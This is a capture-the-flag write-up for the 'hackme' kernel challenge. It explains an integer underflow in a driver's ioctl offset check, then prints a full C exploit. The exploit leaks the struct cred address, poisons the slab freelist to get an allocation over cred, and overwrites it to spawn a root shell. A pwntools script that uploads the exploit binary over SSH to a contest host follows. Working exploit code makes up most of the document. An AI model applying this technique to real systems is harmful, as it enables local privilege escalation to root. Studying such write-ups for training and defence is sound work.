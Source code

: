 ## hackme

This is a kernel exploitation challenge that requires us to get root to read the flag, and I failed to solve it in contest, but let's see.

An `ioctl` is implemented in `hackme.ko`. There are 4 commands: to create memory chunk using `kmalloc`, to delete memory chunk using `kfree`, to read memory chunk using `copy_to_user` and to write the memory chunk using `copy_from_user`. When reading and writing the memory chunks, `offset` and `size` can be specified to only read or write part of the memory chunk. Here is where the vulnerability comes from: there is an integer overflow.

```c
v9 = v19.idx;
v10 = pool[v9].buf;
v11 = &pool[v9];
if ( v10 && v19.off + v19.size <= v11->max_size )
{
  //when v19.off == -0x200L and v19.size == 0x200L
  //we can have a underflow
  //also works for read operation
  copy_from_user(&v10[v19.off], v19.usrbuf, v19.size);
  return 0LL;
}
```

### First Attempt

I initially tried to use [this method](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/kernel/kernel_uaf/). In one word, `kfree` a chunk with same size as `struct cred`, and then `fork`, so that the `struct cred` of new process will be the same one as the chunk just being `kfree`ed. Then rewrite this `struct cred` by underflow. However, this does not seem work. Since the `struct cred` of new process is not the same one as the one just being `kfree`ed. I don't know the reason. Maybe it is because the kernel version since that one is `4.4.72` and this one is `4.20.13`, or it is because the `flag` argument of `kmalloc` is different.

### Second Attempt

Then I tried to leak the `cred` first, using `prctl(PR_SET_NAME, comm)`. The detail is [here](https://poppopret.org/2015/11/16/csaw-ctf-2015-kernel-exploitation-challenge/). This works if I read `0x100000L` bytes. Also, we can also leak the address of our memory chunks by reading `next` pointer of freed chunk. After leaking addresses, I found `cred` is very far from the memory chunks, so we cannot rewrite it directly because that will cause kernel panic. 

The correct approach is to rewrite `next` pointer of the free list, a bit similar to `tcache poisoning` in `ptmalloc` exploitation. We can let `kmalloc` return an address near the `cred`, so we can rewrite `cred`. However, we don't want the free list to be corrupted since that will cause kernel panic, so we need to find a memory region whose first 8 bytes are all 0, fortunately `QWORD PTR [address of cred - 0x10] == NULL`.

Final exploit

```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <sys/wait.h>
#include <sys/prctl.h>
#include <memory.h>
#include <string.h>
#include <assert.h>

char tab[] = {'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H',
'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P',
'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X',
'Y', 'Z', 'a', 'b', 'c', 'd', 'e', 'f',
'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n',
'o', 'p', 'q', 'r', 's', 't', 'u', 'v',
'w', 'x', 'y', 'z', '0', '1', '2', '3',
'4', '5', '6', '7', '8', '9', '+', '/'};


struct data
{
	unsigned int idx;
	char *usrbuf;
	size_t size;
	size_t off;
};
#define BUF_SIZE 0x100000L
struct data param = {0};
char buffer[BUF_SIZE] = {0};
int fd;

void init()
{
	fd = open("/dev/hackme",0);
	if (fd < 0)
		exit(-1);
	param.usrbuf = buffer;
}

void error_exit(char* msg)
{
	puts(msg);
	exit(-1);
}

void kmalloc(unsigned int idx, size_t size, char sig)
{
	memset(buffer, sig, sizeof(buffer));
	param.size = size;
	param.idx = idx;
	int ret = ioctl(fd, 0x30000, &param);
	if (ret < 0) error_exit("Error: kmalloc");
}

void write_memory(unsigned int idx, size_t size, size_t off)
{
	param.size = size;
	param.idx = idx;
	param.off = off;
	int ret = ioctl(fd, 0x30002, &param);
	if (ret < 0) error_exit("Error: write_memory");
}

void read_memory(unsigned int idx, size_t size, size_t off)
{
	param.size = size;
	param.idx = idx;
	param.off = off;
	int ret = ioctl(fd, 0x30003, &param);
	if (ret < 0) error_exit("Error: read_memory");
}

void kfree(unsigned int idx)
{
	param.idx = idx;
	int ret = ioctl(fd, 0x30001, &param);
	if (ret < 0) error_exit("Error: read_memory");
}

void printhex(char* pbuf, size_t size)
{
	unsigned char* buf = (unsigned char*)pbuf;
	for (size_t i = 0; i < size; ++i)
	{
		printf("%.2x", buf[i]);
	}
	printf("\n");
}

char comm[] = "201920192019";
#define CHUNK_SIZE 0x40L
int main(int argc, char const *argv[])
{
	uintptr_t cred;
	//if (argc == 1) exit(-1);
	prctl(PR_SET_NAME, comm);
	//size_t credsize = strtoul(argv[1], 0, 16);
	init();

	for (int i = 0; i < 64; ++i)
	{
		kmalloc(i, CHUNK_SIZE, tab[i]);
	}
	read_memory(63, BUF_SIZE, -BUF_SIZE);
	char* ret = (char*)memmem(buffer, sizeof(buffer), comm, sizeof(comm) - 1);
	if (ret)
	{
		cred = *(uintptr_t*)(ret - 8);
		assert(*(uintptr_t*)(ret - 0x10) == cred);

		//write(1, buffer, BUF_SIZE);
		printf("%p %p\n", (void*)(ret - buffer), (void*)cred);
		puts(ret);
	}

	const size_t LEAK_SIZE = 0x400L;

	puts("Before: ");
	kfree(62);

	kfree(61);
	read_memory(63, LEAK_SIZE, -LEAK_SIZE);
	//printhex(buffer, LEAK_SIZE);

	uintptr_t addr_62 = *(uintptr_t*)(buffer + LEAK_SIZE - CHUNK_SIZE*2);
	printf("%p\n", (void*)addr_62);

	*(uintptr_t*)buffer = cred - 0x10;
	write_memory(63, CHUNK_SIZE*2, -CHUNK_SIZE*2);


	memset(buffer, 0, CHUNK_SIZE);
	kmalloc(61, CHUNK_SIZE, '\x00'); //consume a chunk
	//kmalloc(62, CHUNK_SIZE, '\x00'); //rewrite cred here
	uint64_t arr[8] = {0x0000000000000000,0x0000000000000000
		,0x0000000000000003,0x0000000000000000
		,0x0000000000000000,0x0000000000000000
		,0x0000000000000000,0x0000000000000000};

	param.size = CHUNK_SIZE;
	param.idx = 62;
	param.usrbuf = (char*)arr;
	ioctl(fd, 0x30000, &param);//rewrite cred, usage must NOT be changed

	// system("/bin/sh");
	// execve will cause kernel panic, no idea why
	// and the exploit works for 80% probability
	char* shargv[] = {"/bin/sh", NULL};
	execve("/bin/sh", shargv, NULL);
	//in this way execve will not cause kernel panic

	return 0;
}
```

upload.py
```python
#musl-gcc -static exp.c -o ./fs/home/pwn/exp
from pwn import *
import base64
context(log_level='debug', arch='amd64')

HOST = "35.221.78.115"
PORT =  10022
USER = "pwn"
PW = "pwn"
BIN = "./fs/home/pwn/exp"

def exec_cmd(sh, cmd):
	sh.sendline(cmd)
	sh.recvuntil("$ ")

if __name__ == "__main__":
	sh = ssh(USER, HOST, PORT, PW).run("/bin/sh")
	with open(BIN, "rb") as f:
		data = f.read()
	encoded = base64.b64encode(data)
	sh.recvuntil("$ ")

	once_size = 0x200
	for i in range(0, len(encoded), once_size):
		exec_cmd(sh, "echo -n \"%s\" >> benc" % (encoded[i:i+once_size]))
		print float(i)/len(encoded)

	exec_cmd(sh, "cat benc | base64 -d > exp")
	exec_cmd(sh, "chmod +x exp")
	sh.interactive()
```


`*CTF{userf4ult_fd_m4kes_d0uble_f3tch_perfect}`
